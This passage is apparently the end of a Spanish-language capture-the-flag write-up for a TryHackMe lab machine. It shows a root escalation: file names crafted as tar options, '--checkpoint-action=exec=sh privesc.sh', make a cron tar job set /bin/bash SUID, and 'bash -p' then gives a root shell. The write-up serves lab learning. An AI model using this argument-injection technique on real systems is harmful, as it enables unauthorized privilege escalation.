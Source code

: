 ```bash
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```
Finalmente para obtener el root, entramos en ```/home/server-management/Documents```

```bash
server-management@vulnnet:~$ cd Documents
```
Ejecutamos los siguientes comandos:

```bash
server-management@vulnnet:~/Documents$ echo "chmod 4755 /bin/bash" > privesc.sh
server-management@vulnnet:~/Documents$ echo "" > "--checkpoint-action=exec=sh privesc.sh"
server-management@vulnnet:~/Documents$ echo "" > --checkpoint=1
```

Esto nos creará archivos con nombres de parametros de **tar**, por lo que cuando se ejecute el script y tar englobe todos los archivos con el wildcard, se confundirá con los nombres de los ficheros que creamos, ejecutando la instrución maliciosa que querramos, en este caso asignar privilegios **SUID** a la ```/bin/bash``` (chmod 4755 /bin/bash)

Esperamos un poco despues de lo anterior y abusamos del privilegio **SUID** que se le asignó a la ```/bin/bash```

```bash
server-management@vulnnet:~/Documents$ bash -p
```
  - ```-p``` -> Para **atender** al privilegio **SUID**

Vemos que somos root

```bash
bash-4.4# whoami
root
```
Y podemos leer la flag **root.txt**

```bash
bash-4.4# cat /root/root.txt
THM{2<***CENSORED***>a}
```
**:)**
